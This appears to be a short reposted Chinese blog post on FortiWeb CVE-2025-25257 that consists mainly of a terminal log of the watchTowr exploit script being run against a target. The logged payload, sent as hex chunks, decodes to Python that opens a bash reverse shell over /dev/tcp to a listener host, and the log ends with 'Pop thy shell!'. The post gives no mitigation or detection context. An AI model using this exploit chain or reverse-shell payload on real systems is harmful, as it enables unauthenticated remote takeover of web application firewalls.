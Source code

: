 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg2NTk4MTE1MQ==&mid=2247487598&idx=1&sn=ea41e76ec767e519046d6ce0caf0f8d1

#  FortiWeb CVE-2025-25257  
 TtTeam   2025-07-21 10:20  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB33s3FJrTsOibsslspu2ErTR6tuz7LabjqvDbFzicgKTQxN6CmcMG6dIZGKiaCW6MAiaBJKNrc1M3SPicg/640?wx_fmt=png&from=appmsg "")  
  
 FortiWeb 是否易受 CVE-2025-25257 攻击  
  

```
python watchTowr-vs-FortiWeb-CVE-2025-25257.py --target https://192.168.8.30/ --lhost 192.168.8.148 --lport 1350
                         __         ___  ___________
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|
                                  \/          \/     \/


        watchTowr-vs-FortiWeb-CVE-2025-25257.py


        (*) FortiWeb Unauthenticated SQLi to Remote Code Execution Detection Artifact Generator


          - Sina Kheirkhah (@SinSinology) of watchTowr (@watchTowrcyber)


        CVEs: [CVE-2025-25257]


[*] sprayed chunk #1/17:        '696d706f72'
[*] sprayed chunk #2/17:        '74206f733b'
[*] sprayed chunk #3/17:        '206f732e73'
[*] sprayed chunk #4/17:        '797374656d'
[*] sprayed chunk #5/17:        '2827626173'
[*] sprayed chunk #6/17:        '68202d6320'
[*] sprayed chunk #7/17:        '222f62696e'
[*] sprayed chunk #8/17:        '2f62617368'
[*] sprayed chunk #9/17:        '202d69203e'
[*] sprayed chunk #10/17:       '26202f6465'
[*] sprayed chunk #11/17:       '762f746370'
[*] sprayed chunk #12/17:       '2f3139322e'
[*] sprayed chunk #13/17:       '3136382e38'
[*] sprayed chunk #14/17:       '2e3134382f'
[*] sprayed chunk #15/17:       '3133353020'
[*] sprayed chunk #16/17:       '303e263122'
[*] sprayed chunk #17/17:       '2729'


[*] Pop thy shell!


```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0HlywncJbB33s3FJrTsOibsslspu2ErTRt4j7oK3qCsJ5Rhicv9wHXysqbFDVcTMUDnO2KibCcQPU9eFoRLdwXRSA/640?wx_fmt=png&from=appmsg "")  
  
